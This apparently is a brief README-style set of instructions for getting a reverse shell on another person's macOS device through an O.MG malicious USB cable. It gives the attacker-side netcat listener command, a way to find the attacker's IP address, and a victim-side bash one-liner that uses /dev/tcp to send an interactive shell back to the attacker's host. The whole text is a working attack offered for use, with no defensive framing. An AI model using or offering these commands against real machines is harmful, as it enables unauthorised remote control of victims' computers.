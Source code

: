 # This is, at heart, is a simple reverse shell to gain access to another MacOSX device. I'm looking into creating a tight shell that can run like a daemon but that is a dream atm.

# FIRST STEP(s):
# run this on the attackers machine
    nc -l 'any port'
# This initializes your computers listening protocol to look for TCP connections
# IMPORTANT
# open another Terminal window and run to obtain your computers local ip (this is important for the next step)
    ipconfig getifaddr en0

# NEXT STEP:
# Then simply run the script in your O.MG UI when the cable is connected

# An example of the code run on the attackers computer:
    nc -l 80

# An example of the code run on the victims computer:
    bash -i >& /dev/tcp/10.0.0.1/80 0>&1

